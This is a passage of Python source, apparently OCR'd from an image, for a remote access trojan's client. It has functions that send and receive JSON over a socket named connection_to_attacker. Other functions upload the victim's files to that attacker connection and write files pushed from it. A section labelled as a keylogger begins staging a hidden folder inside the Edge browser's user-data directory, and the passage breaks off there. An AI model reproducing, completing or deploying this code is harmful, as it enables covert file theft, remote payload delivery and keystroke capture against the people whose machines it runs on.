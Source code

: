 def reliable_send(data):
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())




def reliable_recv():
    data = ""
    while True:
        try:
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue



def upload_file(file_name):
    f = open(file_name, 'rb')
    packet = f.read(1024)
    while len(packet) > 0:
        connection_to_attacker.send(packet)
        packet = f.read(1024)
    connection_to_attacker.send('DONE'.encode())



def download_file(file_name):
    f = open(file_name, 'wb')
    while True:
        chunk = connection_to_attacker.recv(1024)
        if chunk.endswith('DONE'.encode()):
            f.write(chunk[:-4])
            f.close()
            break
        f.write(chunk)

#start of keylogger
global stopper
stopper = "hellno"
exit_event = threading.Event()
original_stdout = sys.stdout
def start_log():

    try:
        local_state_path = os.path.join(os.environ["USERPROFILE"],"AppData", "Local", "Microsoft", "Edge","User Data", "Default")
        direc="temp"
        dir=os.path.join(local_state_path,direc)
        os.mkdir(dir)
    except:
        local_state_path = os.path.join(os.environ["USERPROFILE"],"AppData", "Local", "Microsoft", "Edge","User Data", "Default")
        direc="temp"
        dir=os.path.join(local_state_path,direc)
    